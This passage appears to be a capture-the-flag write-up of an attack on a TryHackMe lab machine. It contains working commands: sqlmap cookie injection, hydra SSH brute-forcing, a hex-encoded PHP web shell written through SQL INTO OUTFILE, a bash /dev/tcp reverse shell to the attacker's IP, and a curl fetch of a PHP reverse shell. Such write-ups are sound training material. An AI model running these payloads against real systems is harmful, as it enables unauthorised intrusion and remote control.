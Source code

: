 So we have a password here.

password:`Cda3RsDJga`

Doesn't seem to work for dylan using ssh.

![](/assets/img/thm/yotd/Pasted%20image%2020220711190120.png)



Sqlmap:
```sh
sqlmap -u http://10.10.9.245/ --cookie='id=' -p id --level=2
```
results:
```sh
[19:22:37] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL > 5.0.12
```

bruteforcing `dylan`'s password on side:
```sh
hydra -l dylan -P /usr/share/dict/rockyou.txt 10.10.9.245 -t 64 ssh
```

contents of index.php:
![](/assets/img/thm/yotd/Pasted%20image%2020220711194149.png)

so its checking for certain bad strings.

converting the payload `<?php system($_GET["cmd"]); ?>` to hex and using it as payload:
```sh
Cookie: id=' union select  0x3C3F7068702073797374656D28245F4745545B22636D64225D293B203F3E, '' into outfile '/var/www/html/revshell.php' #
```

Works. I tried it earlier but inside the quotes somehow and it didn't work but anyways. ;-; 

![](/assets/img/thm/yotd/Pasted%20image%2020220711224800.png)


using the following paylaod after URL encoding it: ( I already do have a listener setup at 4242):

```sh
bash -i >& /dev/tcp/10.17.47.158/4242 0>&1
```

hmm doesn't work.

lets upload the infamous php shell.  I have hosted it with python3 web server from my machine.
using the command `curl MY_IP/revshell.php --output kekeke.php`

![](/assets/img/thm/yotd/Pasted%20image%2020220711230419.png)

stabilising the shell:
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```
